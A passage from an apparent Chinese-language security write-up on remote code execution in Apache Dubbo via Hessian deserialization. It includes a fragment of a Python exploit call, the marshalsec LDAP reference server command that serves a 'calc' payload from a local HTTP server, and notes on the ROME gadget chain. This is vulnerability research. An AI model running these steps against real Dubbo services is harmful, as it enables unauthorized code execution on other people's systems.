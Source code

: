 ```python
    service_name='com.evil',
    method_name='rce',
    args=[toStringBean])

print(resp)
```

> java -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#calc 8099
>
> python -m http.server 8000

### Strategy2:  deserialize params anyway

上面是利用找不到服务抛出异常，打印异常信息时触发了`toString`

虽然找不到服务，但`Dubbo`仍然对我们传递的参数进行反序列化，这就可以利用`Hessian`反序列化的打法了。

`MapDeserializer#readMap`会进行`map.put`操作，进而触发`key.hashCode()`

> 😭踩坑记录：
>
> 🕒还是上面说的`Dubbo`默认反序列化器`JavaDeserializer`的问题。
>
> 之前Rome利用链里加了`ObjectBean`（`ObjectBean`是多余的），其构造器会初始化`equalsBean`，`new EqualsBean(beanClass, obj);`，而传入的参数都是`null`，`EqualsBean`这个构造器会抛出`NullPointer`异常
>
> 果然还是验证了奥卡姆剃刀原则——Entities should not be multiplied unnecessarily
>
> 如无必要，勿增实体👊
>
> ![image-20230414204410105](../.gitbook/assets/image-20230414204410105.png)
>
> 🕓一开始我`Duubo Consumer`配置的是去`ZooKeeper`查询服务，用上面那种方法打的话，`Zookeeper`直接给你返回找不到服务了，就没有后文了。。。。实际上`Consumer`可以直接找`Provider`
>
> ```xml
> <dubbo:reference interface="org.apache.dubbo.springboot.demo.DemoService" id="DemoService"  timeout="2000" check="false" url="dubbo://localhost:20880"/>
